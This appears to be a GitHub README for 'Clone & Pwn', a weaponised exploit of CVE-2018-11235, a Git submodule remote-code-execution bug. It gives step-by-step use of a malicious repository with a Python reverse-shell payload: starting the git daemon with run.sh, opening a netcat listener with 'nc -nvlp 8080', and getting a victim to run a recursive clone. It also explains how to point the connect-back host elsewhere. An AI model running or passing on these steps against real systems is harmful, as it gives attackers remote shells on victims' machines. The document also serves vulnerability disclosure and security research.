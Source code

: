 Clone & Pwn
===========

**Original:**  https://github.com/Rogdham/CVE-2018-11235  
**Author:**    Alejandro Caceres &lt;acaceres@hyperiongray.com&gt;,
               Mark E. Haase &lt;mhaase@hyperiongray.com&gt;  
**Date:**      2018-06-04  
**CVE:**       [CVE-2018-11235](https://nvd.nist.gov/vuln/detail/CVE-2018-11235)  
**Advisory:**  https://staaldraad.github.io/post/2018-06-03-cve-2018-11235-git-rce/  
**Tested on:** Ubuntu 18.04, Git 2.17.0, Python 2.7

Demo
----

![demo of exploit running](demo.gif)

Discussion
----------

CVE-2018-11235, which we call "Clone & Pwn", creates a malicious Git repository
that exploits a bug in the Git client. When the repo is cloned using the
`--recurse-submodules` flag, arbitrary code is executed on vulnerable versions 
of Git.

We have adapted an example exploit [written by
Rogdham](https://github.com/Rogdham/CVE-2018-11235) to include a simple Python
reverse shell payload. Rogdham's exploit is expected to be published to a Git
server, but the major Git hosts like GitHub and GitLab will filter out malicious
repositories. Therefore, this exploit runs a Git daemon locally to simplify
deployment. By default, the payload connects back to `127.0.0.1:8080`, but you
can modify the `payload.py` settings `CONNECT_BACK_HOST` and `CONNECT_BACK_PORT`
to connect somewhere else.

On the server, run the exploit script:

    $ bash run.sh
    [*] Creating repository...
    [*] Executing git daemon...
    [*] Start your netcat listener, then run this on the client:

        $ git clone --recurse-submodules git://<SERVER_IP>/repo

Also on the server, run a netcat listener:

    $ nc -nvlp 8080
    listening on [any] 8080 ...

Then on a vulnerable client machine, run:

    $ git clone --recurse-submodules git://<SERVER_IP>/repo

You should receive a connect back shell in your netcat listener.
